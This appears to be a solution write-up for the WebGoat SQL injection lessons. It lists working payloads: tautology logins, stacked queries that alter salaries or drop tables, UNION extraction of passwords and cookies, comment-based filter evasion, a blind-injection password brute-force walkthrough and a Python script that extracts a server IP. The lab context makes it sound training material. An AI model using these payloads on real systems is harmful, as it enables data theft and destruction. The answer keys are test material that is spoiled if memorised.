




**SQL Injection (intro)**
-
*ex2*
-
SQL query: SELECT department FROM employees WHERE first_name='Bob'

*ex3*
-
SQL query: UPDATE employees SET department='Sales' WHERE first_name='Tobi'

*ex4*
-
ALTER TABLE employees ADD phone varchar(20)

*ex5*
-
SQL query: GRANT ALL PRIVILEGES ON grant_rights TO unauthorized_user;

*ex9*
-
SELECT * FROM users_data FIRST_NAME = 'John' and Last_NAME = ' ' + or + '1'='1

*ex10*
-
Login_count: 0
User_Id: 0 OR 1=1

*ex11*
-
Employee Name: A
Authentication TAN: ' OR '1' = '1

*ex12*
Employee Name: A
Authentication TAN: '; UPDATE employees SET salary=99999 WHERE first_name='John

*ex13*
'; DROP TABLE access_log;--

**SQL Injection (advanced)**
-
*ex3*
Name: '; SELECT * FROM user_system_data;-- or ' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;--
Password: passW0rD

*ex5*
-
1. Verification of Vulnerability
- By entering a crafted username: tom' AND '1'='1, the system responds:

- "User tom' AND '1'='1' already exists, please try to register with a different username."

- Since the statement '1'='1' is always true, the database confirms that the user "tom" exists. This confirms the input is not being sanitized and is directly interacting with the SQL query.

2. Extracting the Password
We can use Blind SQL Injection to guess the password character by character. Using a proxy tool like Burp Suite, we intercept the request and modify the username field:

- Payload: tom' AND substring(password,1,1)='a

- Logic: The substring(password,1,1) function grabs the first letter of the password and compares it to 'a'.

3. Brute-Force Results
By using Burp Suite Intruder with a list of payloads (a-z, 0-9), we monitor the server's response:

- If the response says "User already exists", the condition is True.

- If the response says "Username available" (or doesn't show the "exists" error), the condition is False.

- Example: When the payload is ...substring(password,1,1)='t', the system returns the "already exists" message. This proves that 't' is the first letter of the password.

4. Automation
- Instead of doing this manually for every character, we can use a small Python script or the Intruder tool in Burp Suite to automate the process for the entire password length.
[text](blindsql.py)

username: tom
password: thisisasecretfortomonly

*ex6*
-
1. What is the difference between a prepared statement and a statement?

- Solution 4: A statement has got values instead of a prepared statement

2. Which one of the following characters is a placeholder for variables?

- Solution 3: ?

3. How can prepared statements be faster than statements?

- Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.

4. How can a prepared statement prevent SQL-Injection?

- Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.

5. What happens if a person with malicious intent writes into a register form :Robert); DROP TABLE Students;-- that has a prepared statement?

- Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.

**SQL Injection (mitigation)**
-
*ex5*
-
- The fields must contain the following words to validate the lesson: getConnection, PreparedStatement, prepareStatement, ?, ?, setString, setString.

*ex6*
-
try {  
     Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
     PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
     ps.setString(1, "Admin");  
     ps.executeUpdate();  
} catch (Exception e) {  
     System.out.println("Oops. Something went wrong!");  
}

*ex9*
-
a';/ ** /SELECT/ * * /*/ * */FROM/**/user_system_data--  (no space)

*ex10*
-
a';/ ** /SESELECTLECT/ ** /*/ ** /FRFROMOM/**/user_system_data-- (no space)

*ex12*
-
    import json  
    import requests  
    
    def sql_injection_mitigation_10():  
         index = 0  
  
         headers = {  
                 'Cookie': 'JSESSIONID=E74AD097A71646AF92BC34822A1EB708'  
         }  
  
         while True:  
                 payload = '(CASE WHEN (SELECT ip FROM servers WHERE hostname=\'webgoat-prd\') LIKE \'{}.%\' THEN id ELSE hostname END)'.format(index)  
  
                 r = requests.get('http://127.0.0.1:8001/WebGoat/SqlInjectionMitigations/servers?column=' + payload, headers=headers)  
  
                 try:  
                         response = json.loads(r.text)  
                 except:  
                         print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
                         return  
  
                 if response[0]['id'] == '1':  
                         print('webgoat-prd IP: {}.130.219.202'.format(index))  
                         return  
                 else:  
                         index += 1  
                         if index > 255:  
                                 print("No IP found")  
                                 return  
  
    sql_injection_mitigation_10()

**Cross Site Scripting**

